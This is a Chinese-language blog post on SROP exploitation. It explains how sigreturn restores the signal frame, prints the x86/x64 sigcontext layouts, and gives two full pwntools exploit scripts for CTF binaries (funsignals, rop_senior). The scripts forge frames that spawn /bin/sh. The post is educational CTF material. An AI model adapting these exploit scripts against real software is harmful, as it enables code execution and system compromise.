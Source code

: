 ```yaml
---
layout: post
title: 'srop'
subtitle: 'srop'
date: 2021-03-28
categories: 技术
tags: rop
---
```


SROP本质是 sigreturn 这个系统调用，主要是将所有寄存器压入栈中，以及压入 signal 信息，以及指向 sigreturn 的系统调用地址。 

 对于 signal Frame 来说，会因为架构的不同而有所区别，这里给出分别给出 x86 以及 x64 的 sigcontext 。

- x86

```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

- x64

```c
struct _fpstate
{
  /* FPU environment matching the 64-bit FXSAVE layout.  */
  __uint16_t        cwd;
  __uint16_t        swd;
  __uint16_t        ftw;
  __uint16_t        fop;
  __uint64_t        rip;
  __uint64_t        rdp;
  __uint32_t        mxcsr;
  __uint32_t        mxcr_mask;
  struct _fpxreg    _st[8];
  struct _xmmreg    _xmm[16];
  __uint32_t        padding[24];
};

struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short __pad0;
  __uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  __extension__ union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

 signal handler 返回后，内核为执行 sigreturn 系统调用，为该进程恢复之前保存的上下文，其中包括将所有压入的寄存器，重新 pop 回对应的寄存器，最后恢复进程的执行。其中，32 位的 sigreturn 的调用号为 77，64 位的系统调用号为 15。



**攻击思路（以64位为例）**

 ![1](/picture/rop/2021-03-28-srop/1.png)

 当系统执行完 sigreturn 系统调用之后，会执行一系列的 pop 指令以便于恢复相应寄存器的值，当执行到 rip 时，就会将程序执行流指向 syscall 地址，根据相应寄存器的值，此时，便会得到一个 shell。 



**system call chains**

这样当每次 syscall 返回的时候，栈指针都会指向下一个 Signal Frame。因此就可以执行一系列的 sigreturn 函数调用。

![2](/picture/rop/2021-03-28-srop/2.png)



**vsyscall中的syscall；ret片段（地址不受alsr影响）**

![3](/picture/rop/2021-03-28-srop/3.png)

**例题1：Backdoor CTF 2017-funsignals（程序本身存在sigreturn片段）**

![4](/picture/rop/2021-03-28-srop/4.png)

直接写入 Signal Frame 即可（先往bss段上写入'/bin/sh'）

exp:

```python
from pwn import*
context.update(os = 'linux', arch = 'amd64')
context.log_level= 'debug'
p = process('./funsignals')
#gdb.attach(p,'b *0x1000000B')
syscall_addr = 0x1000000B
new_stack_addr = 0x10000000+0x500
sh_addr = new_stack_addr+0x100
frameExecve = SigreturnFrame()				
frameExecve.rax = 0
frameExecve.rdi = 0
frameExecve.rsi = new_stack_addr
frameExecve.rdx = 0x200
frameExecve.rip = syscall_addr
frameExecve.rsp = new_stack_addr
payload = str(frameExecve)
p.send(payload)

frameExecve = SigreturnFrame()				
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = sh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr

payload = str(frameExecve).ljust(0x100,'\x00')+'/bin/sh\x00'
sleep(1)
p.send(payload)

p.interactive()
```



例题2：hgame2021 week4 rop_senior（需要通过read函数的返值来控制rax进而实现sigreturn）

漏洞函数及其汇编

![5](/picture/rop/2021-03-28-srop/5.png)



![6](/picture/rop/2021-03-28-srop/6.png)

思路：先往栈上写入一个Signal Frame（实现往bss段上写入数据），通过read实现控制rax进而实现sigreturn，后续思路与之前一直，不过是Signal Frame变成实现execve("/bin/sh",0,0)。

exp：

```python
from pwn import*
context.log_level = 'debug'
context.update(os = 'linux', arch = 'amd64')

p =  process('./rop_senior')
read_addr = 0x40063A
syscall_addr = 0x400647
vuln = 0x40062A
new_stack_addr = 0x601000 + 0x500
sh_addr = new_stack_addr+0x120
#gdb.attach(p,'b *0x40064A')
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_read
frameExecve.rdi = 0
frameExecve.rsi = new_stack_addr
frameExecve.rdx = 0x400
frameExecve.rip = syscall_addr
frameExecve.rsp = new_stack_addr
payload = p64(0)+p64(read_addr)+p64(syscall_addr)+'\x00'*8+str(frameExecve)
p.sendafter('best',payload)
sleep(1)
#pause()
payload = p64(0)+p32(syscall_addr)
payload = payload.ljust(15,'\x00')
p.send(payload)
sleep(1)
#pause()
frameExecve = SigreturnFrame()
frameExecve.rax = constants.SYS_execve
frameExecve.rdi = sh_addr
frameExecve.rsi = 0
frameExecve.rdx = 0
frameExecve.rip = syscall_addr
payload = p64(0)+p64(read_addr)+p64(syscall_addr)+'\x00'*8+str(frameExecve).ljust(0x100,'\x00')+'/bin/sh\x00'
p.send(payload)
sleep(1)
#pause()
payload = p64(0)+p32(syscall_addr)
payload = payload.ljust(15,'\x00')
p.send(payload)
p.interactive()
```

